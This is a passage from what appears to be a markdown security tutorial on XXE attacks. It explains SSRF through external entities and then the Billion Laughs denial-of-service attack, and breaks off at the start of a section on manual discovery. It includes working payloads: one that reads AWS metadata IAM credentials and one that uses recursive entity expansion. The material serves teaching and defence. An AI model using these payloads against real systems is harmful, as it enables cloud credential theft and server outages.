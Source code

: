 ### How SSRF via XXE Works
1. The attacker submits an XML document that includes an external entity pointing to an internal or cloud-based URL.
2. The XML parser processes the request, potentially exposing internal services or cloud credentials.

**Example (Access AWS Metadata Service):**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## XXE with Denial of Service (Billion Laughs Attack)
- The "Billion Laughs" attack is a type of XML Denial of Service (DoS) attack. It uses recursive entity expansion to exhaust server resources and crash the system.

### How the Billion Laughs Attack Works
1. The attacker submits an XML document that contains recursively defined entities.
2. The XML parser processes these entities, leading to exponential memory consumption and crashing the server.

**Example:**
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

# Manual Discovery Techniques for XXE

Here are several manual techniques to discover and exploit XXE vulnerabilities in web applications:

## 1. Analyze XML Input Points
- Review the application for features that accept XML input, such as file uploads, SOAP-based web services, or API endpoints. Identify areas where user-supplied XML may be processed without validation.
